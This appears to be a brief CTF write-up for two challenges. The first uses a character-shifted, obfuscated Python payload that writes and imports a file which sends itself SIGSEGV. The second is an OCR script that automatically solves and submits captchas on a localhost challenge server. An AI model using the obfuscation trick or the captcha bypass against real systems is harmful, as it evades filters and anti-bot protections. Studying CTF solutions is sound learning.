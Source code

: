 # Crash Python (misc)

```
payload = 'jnqpsu!pt<jnqpsu!tjhobm<pt/ljmm)pt/hfuqje)*-!tjhobm/TJHTFHW*'
payload = "".join([chr(ord(_)-1) for _ in payload]) open("stage2.py", "w").write(payload)
import stage2
```

- tham khảo

```
https://gist.github.com/coolreader18/6dbe0be2ae2192e90e1a809f1624c694
https://codegolf.stackexchange.com/questions/4399/shortest-code-that-raises-a-sigsegv
```

# Gotcha (misc)

```python
import requests
import pytesseract
import base64
from bs4 import BeautifulSoup
from PIL import Image, ImageOps
import io

url = "http://localhost:1337/"
submit_url = "http://localhost:1337/submit"

# pytesseract.pytesseract.tesseract_cmd = r'/mnt/d'
s = requests.session()
for i in range(1):
    req = s.get('http://localhost:1337/')

    req_html = (req.text)                                       #lay html
    start_index = req_html.find('base64,') + len('base64,')     #lay base64 cua captcha
    end_index = req_html.find('" alt=')
    base64_data = req_html[start_index:end_index]
    image_data = base64.b64decode(base64_data)                  #decode base 64
    img = Image.open(io.BytesIO(image_data))
    data = pytesseract.image_to_string(
        img, config='--psm 6 --oem 3 -l eng -c tessedit_char_whitelist=ABCDEFGHIJKLMNOPQRSTUVWXYZ')[:-2]    #doc hinh anh

    captcha = {
        'captcha': data
    }

    r = s.post(submit_url, data=captcha)                        #gui hinh anh
    html_content = r.content                                    #lay html
    soup = BeautifulSoup(html_content, "html.parser")           #lam cho no dep hon =)))
    text_score = soup.h3.text.strip()                           #lay <h3>
    print(text_score)

    if (text_score.find("100") != -1):
        print(soup)
        break
# https://ctftime.org/task/17320
```
